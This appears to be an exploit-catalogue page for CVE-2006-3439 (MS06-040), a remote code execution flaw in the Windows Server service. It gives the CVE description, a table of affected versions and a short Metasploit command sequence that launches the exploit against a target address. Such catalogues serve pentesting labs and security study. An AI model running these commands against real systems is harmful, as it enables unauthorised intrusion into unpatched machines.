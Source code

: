 ###  CVE-2006-3439

#### Describe

Buffer overflow in the Server Service in Microsoft Windows 2000 SP4, XP SP1 and SP2, and Server 2003 SP1 allows remote attackers, including anonymous users, to execute arbitrary code via a crafted RPC message, a different vulnerability than CVE-2006-1314.

#### ImpactVersion

| Product              | CPU Architecture | Version | Update | Tested             |
| -------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 2000         |                  |         | SP4    | &#10004; |
| Windows  Server 2003 |                  | R2      |        |                    |
| Windows  Server 2003 |                  |         | SP1    |                    |
| Windows  Server 2003 |                  |         | SP1    |                    |
| Windows  Server 2003 |                  |         |        |                    |
| Windows  Server 2003 |                  |         |        |                    |
| Windows Xp           |                  |         | SP1    |                    |
| Windows Xp           |                  |         | SP2    |                    |

#### Utilization

MSF utilization test system Windows Server 2000 SP4 x86

```
use exploit/windows/smb/ms06_040_netapi
set RHOST 192.168.1.17
run
```

#### Analyze
- http://www.atomsec.org/%E5%AE%89%E5%85%A8/ms06-040cve-2006-3439%E9%9D%99%E6%80%81%E5%88%86%E6%9E%90/
- https://bbs.pediy.com/thread-266157.htm